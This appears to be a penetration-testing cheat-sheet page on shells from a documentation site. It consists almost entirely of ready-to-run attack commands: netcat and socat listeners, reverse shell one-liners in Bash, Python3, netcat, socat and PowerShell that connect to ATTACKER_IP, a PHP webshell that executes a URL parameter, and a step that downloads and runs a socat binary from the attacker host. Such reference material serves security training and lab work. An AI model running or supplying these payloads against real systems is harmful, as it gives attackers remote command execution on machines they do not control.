

repository: georgenadejde/CheatShip · page: exploitation/shells/index.html · generator: mkdocs

# Shells

Reverse shells, bind shells, stabilisation, msfvenom payload generation.

---

## Listeners

```bash
# netcat
nc -lvnp 4444
```

```bash
# rlwrap (better readline — history, arrow keys)
rlwrap nc -lvnp 4444
```

```bash
# socat (fully stable)
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```

---

## Reverse Shell One-liners

=== "Bash"
    ```bash
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
    ```
=== "Python3"
    ```bash
    python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
    ```
=== "Netcat (-e)"
    ```bash
    nc ATTACKER_IP 4444 -e /bin/bash
    ```
=== "Netcat (mkfifo)"
    ```bash
    mkfifo /tmp/f; nc ATTACKER_IP 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```
=== "Socat"
    ```bash
    socat TCP:ATTACKER_IP:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
    ```
=== "PowerShell"
    ```powershell
    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

### PHP Webshell

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

---

## Shell Stabilisation (Linux)

### Python PTY

```bash
# 1. on target (inside netcat shell)
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# 2. Ctrl+Z to background the shell

# 3. on attacker
stty raw -echo; fg

# if shell dies: type 'reset' blindly
```

### rlwrap

```bash
rlwrap nc -lvnp 4444
```

### Socat upgrade

```bash
# attacker: serve socat binary
python3 -m http.server 80

# target: download + run
wget http://ATTACKER_IP/socat -O /tmp/socat
chmod +x /tmp/socat
/tmp/socat TCP:ATTACKER_IP:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### Fix terminal size after stabilisation

```bash
# attacker first:
stty -a   # note down the rows + columns values

# target:
stty rows 50 cols 220
```

---
